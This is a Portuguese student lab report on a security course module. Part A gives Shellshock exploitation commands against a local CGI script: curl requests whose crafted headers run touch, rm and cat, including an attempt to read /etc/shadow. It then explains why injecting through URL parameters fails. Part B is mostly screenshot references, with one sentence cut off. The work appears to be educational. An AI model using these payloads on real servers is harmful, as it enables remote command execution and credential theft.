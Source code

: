 # Module 2

-------


# Parte A

## Exercise 2
### Ponto a) 
    curl -H "ATTACK:() {echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"touch /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

![alt text](parte1_ex2_a_1.png "Código com espaços")

### Ponto b)
    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/rm /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"rm /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

![alt text](parte1_ex2_b_1.png "Código com espaços")

### Ponto c)
Para testar, tentou-se ler primeiro um ficheiro "ficheiro2" com texto no seu conteudo, através do código abaixo:

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /tmp/ficheiro2" localhost:8080/cgi-bin/vul.cgi

Depois, correu-se o mesmo código para o ficheiro pretendido

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" localhost:8080/cgi-bin/vul.cgi

A figura abaixo apresenta os resultados.

![alt text](parte1_ex2_c_1.png "Código com espaços")

Como se pode observar, o primeiro ficheiro tinha dados e os mesmos foram impressos na linha de comandos.
No segundo código, nada foi apresentado.
Para garantir que o ficheiro tinha conteudo, abriu-se o docker em modo interativo e fez-se o cat desse mesmo ficheiro, como mostra a imagem abaixo.

![alt text](parte1_ex2_c_2.png "Código com espaços")

Para também se entender as permissões de leitura e escrita deste ficheiro, correu-se um código para obter o USER atual, e outro para obter as permissões do ficheiro.

![alt text](parte1_ex2_c_3.png "Código com espaços")

O que se pode observar é que o ficheiro necessita de permissões de root, mas o apache corre numa conta de user e não como root.



### Ponto d)
Não porque uma web url não aceita espaços, como no exemplo da figura abaixo, em que foi corrido o seguinte código:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm /tmp/ficheiro

![alt text](parte1_ex2_d_1.png "Código com espaços")

Como podemos observar, os espaços são ignorados, e o sistema apenas lê o que está antes dos espaços.

Para tal, necessitamos de converter o espaço num código, sendo o espaço representado pelo código %20B.
Assim, o código fica:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm%20B/tmp/ficheiro

O resultado é apresentado na figura abaixo.
![alt text](parte1_ex2_d_2.png "Código com espaços")

O problema neste caso é que o bash não converte este código num espaço literal.

Pelas razões acima referidas e como foi possivel observar, não é possivel fazer o ataque através dos parâmetros.



# Parte B

## Static analysis

### Ponto 2

#### a)
Nas imagens abaixo, é possivel verificar as alterações da versão 1 para a versão 2:

![alt text](parte2_ex_2_a_1.jpeg "Código com espaços")

![alt text](parte2_ex_2_a_2.jpeg "Código com espaços")


#### b)
Nas imagens abaixo, é possivel verificar a adição do código do workflow trigger.

![alt text](parte2_ex_2_b_1.jpeg "Código com espaços")

![alt text](parte2_ex_2_b_2.jpeg "Código com espaços")


### Ponto 3

Após analisar os logs de ou

![alt text](parte2_ex3.png "Código com espaços")


### Ponto 4

![alt text](parte2_ex4_1.jpeg "Código com espaços")


![alt text](parte2_ex4_2.jpeg "Código com espaços")


![alt text](parte2_ex4_3.jpeg "Código com espaços")

